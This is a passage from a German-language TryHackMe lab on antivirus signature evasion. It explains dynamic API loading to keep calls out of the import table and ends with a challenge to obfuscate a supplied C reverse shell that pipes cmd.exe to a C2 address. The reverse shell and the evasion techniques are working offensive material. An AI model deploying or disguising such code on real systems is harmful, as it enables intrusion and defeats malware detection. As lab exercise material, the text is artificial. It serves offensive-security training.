Wie kurz erwähnt wurde, ist die Thunk-Tabelle nicht der einzige Weg, um einen Zeiger für eine Funktionsadresse zu erhalten. Wir können auch einen API-Aufruf nutzen, um die Funktionsadresse direkt aus der Importbibliothek zu erhalten. Diese Technik wird als dynamisches Laden bezeichnet und kann verwendet werden, um die IAT zu umgehen und die Nutzung des Windows-Loaders zu minimieren.

Wir werden unsere Strukturen schreiben und neue willkürliche Namen für Funktionen erstellen, um das dynamische Laden zu nutzen.

Auf einer hohen Ebene können wir das dynamische Laden in C-Sprachen in vier Schritte unterteilen:

1. Definieren der Struktur des Aufrufs
2. Abrufen des Handles des Moduls, in dem die Aufrufadresse vorhanden ist
3. Abrufen der Prozessadresse des Aufrufs
4. Verwenden des neu erstellten Aufrufs

Um mit dem dynamischen Laden eines API-Aufrufs zu beginnen, müssen wir zunächst eine Struktur für den Aufruf vor der Hauptfunktion definieren. Die Aufrufstruktur definiert alle Ein- oder Ausgaben, die für den Aufruf erforderlich sein können. Wir können die Strukturen für einen spezifischen Aufruf in der Microsoft-Dokumentation finden. Zum Beispiel kann die Struktur für `GetComputerNameA` [hier](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getcomputernamea) gefunden werden. Da wir dies als neuen Aufruf in C implementieren, muss sich die Syntax ein wenig ändern, aber die Struktur bleibt dieselbe, wie unten dargestellt.  
```c
// 1. Define the structure of the call
typedef BOOL (WINAPI* myNotGetComputerNameA)(
	LPSTR   lpBuffer,
	LPDWORD nSize
);
```

Um auf die Adresse des API-Aufrufs zugreifen zu können, müssen wir zunächst die Bibliothek laden, in der er definiert ist. Wir werden dies in der Hauptfunktion definieren. Üblicherweise sind dies `kernel32.dll` oder `ntdll.dll` für Windows-API-Aufrufe. Nachfolgend finden Sie ein Beispiel für die Syntax, die erforderlich ist, um eine Bibliothek in einen Modulgriff zu laden.
```c
// 2. Obtain the handle of the module the call address is present in 
HMODULE hkernel32 = LoadLibraryA("kernel32.dll");
```

Mit dem zuvor geladenen Modul können wir die Prozessadresse für den spezifizierten API-Aufruf erhalten. Dies geschieht direkt nach dem Aufruf von `LoadLibrary`. Wir können diesen Aufruf speichern, indem wir ihn zusammen mit der zuvor definierten Struktur casten. Nachfolgend finden Sie ein Beispiel für die Syntax, die erforderlich ist, um den API-Aufruf zu erhalten.
```c
// 3. Obtain the process address of the call
myNotGetComputerNameA notGetComputerNameA = (myNotGetComputerNameA) GetProcAddress(hkernel32, "GetComputerNameA");
```

Obwohl diese Methode viele Bedenken und Probleme löst, gibt es dennoch mehrere Überlegungen, die beachtet werden müssen. Erstens sind `GetProcAddress` und `LoadLibraryA` immer noch im IAT vorhanden; obwohl sie kein direkter Indikator sind, können sie Misstrauen hervorrufen oder dieses verstärken; dieses Problem kann durch **PIC** (**P**osition **I**ndependent **C**ode) gelöst werden. Moderne Agenten überwachen auch spezifische Funktionen und Kernelinteraktionen; dies kann durch **API-Unhooking** gelöst werden.
##
Mit dem Wissen, das Sie während dieser Aufgabe gesammelt haben, obfuskieren Sie das folgende C-Snippet und stellen Sie sicher, dass keine verdächtigen API-Aufrufe im IAT enthalten sind.
```c
#include <windows.h>
#include <stdio.h>
#include <lm.h>

int main() {
    printf("GetComputerNameA: 0x%p\\n", GetComputerNameA);
    CHAR hostName[260];
    DWORD hostNameLength = 260;
    if (GetComputerNameA(hostName, &hostNameLength)) {
        printf("hostname: %s\\n", hostName);
    }
}
```

Sobald ausreichend obfuskiert, laden Sie das Code-Snippet auf den Webserver unter `http://MACHINE_IP/challenge-2.html` hoch. Die Datei muss als `challenge-2.exe` gespeichert werden. Wenn sie korrekt obfuskiert ist, erscheint eine Flagge in einem Benachrichtigungsfenster.

## Fragen:
Welche Flagge wird nach dem Hochladen eines korrekt obfuskierten Snippets gefunden?
```

```

# Task 7 - Alles zusammengefasst
As bereits in diesem Raum und in den [Grundlagen der Verschleierung](https://tryhackme.com/r/room/obfuscationprinciples) betont wurde, gibt es keine einzelne Methode, die zu 100 % effektiv oder zuverlässig ist.

Um eine effektivere und zuverlässigere Methodik zu erstellen, können wir mehrere der in diesem Raum und im vorherigen behandelten Methoden kombinieren.

Bei der Festlegung der Reihenfolge, in der Sie mit der Verschleierung beginnen möchten, sollten Sie die Auswirkungen jeder Methode berücksichtigen. Ist es beispielsweise einfacher, eine bereits gebrochene Klasse zu verschleiern, oder ist es einfacher, eine Klasse zu brechen, die verschleiert ist?

Hinweis: Im Allgemeinen sollten automatisierte Verschleierung oder weniger spezifische Verschleierungsmethoden nach dem spezifischen Brechen von Signaturen ausgeführt werden. Diese Techniken werden jedoch für diese Herausforderung nicht benötigt.

Unter Berücksichtigung dieser Hinweise passen Sie die bereitgestellte Binärdatei gemäß den untenstehenden Spezifikationen an.

1. Keine verdächtigen Bibliotheksaufrufe vorhanden
2. Keine durchgesickerten Funktions- oder Variablennamen
3. Die Datei-Hash ist unterschiedlich zum Original-Hash
4. Die Binärdatei umgeht gängige Antivirus-Engines

Hinweis: Wenn Sie Bibliotheksaufrufe und durchgesickerte Funktionen in Betracht ziehen, achten Sie auf die IAT-Tabelle und die Zeichenfolgen Ihrer Binärdatei.
```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```

Sobald ausreichend verschleiert, kompilieren Sie das Payload auf der AttackBox oder der VM Ihrer Wahl mit GCC oder einem anderen C-Compiler. Die Datei muss als `challenge.exe` gespeichert werden. Nach der Kompilierung übermitteln Sie die ausführbare Datei an den Webserver unter `http://MACHINE_IP/`. Wenn Ihr Payload die aufgeführten Anforderungen erfüllt, wird er ausgeführt und ein Beacon an die angegebene Server-IP und den Port gesendet.

Hinweis: Es ist auch wichtig, die Variablen `C2Server` und `C2Port` im bereitgestellten Payload zu ändern, da diese Herausforderung sonst nicht ordnungsgemäß funktioniert und Sie keine Shell zurück erhalten.

Hinweis: Beim Kompilieren mit GCC müssen Sie Compileroptionen für `winsock2` und `ws2tcpip` hinzufügen. Diese Bibliotheken können mit den Compiler-Flags `-lwsock32` und `-lws2_32` eingebunden werden.

Wenn Sie immer noch feststecken, haben wir unten eine Lösungsanleitung bereitgestellt.

## Fragen:
Was ist die Flag auf dem Desktop des Administrators?
```

```

# Task 8 - Abschluss
Signaturumgehung kann den Prozess einleiten, eine bösartige Anwendung vorzubereiten, um modernste Lösungen und Erkennungsmaßnahmen zu umgehen.

In diesem Raum haben wir besprochen, wie man Signaturen identifiziert und verschiedene Arten von Signaturen umgeht.

Die Techniken, die in diesem Raum gezeigt wurden, sind im Allgemeinen werkzeugunabhängig und können auf viele Anwendungsfälle angewendet werden, da sich sowohl Werkzeuge als auch Verteidigungsstrategien weiterentwickeln.

An diesem Punkt können Sie damit beginnen, fortgeschrittenere Erkennungsmaßnahmen oder Analysetechniken zu verstehen und Ihre Fähigkeiten im Umgang mit offensiven Werkzeugen weiter zu verbessern.
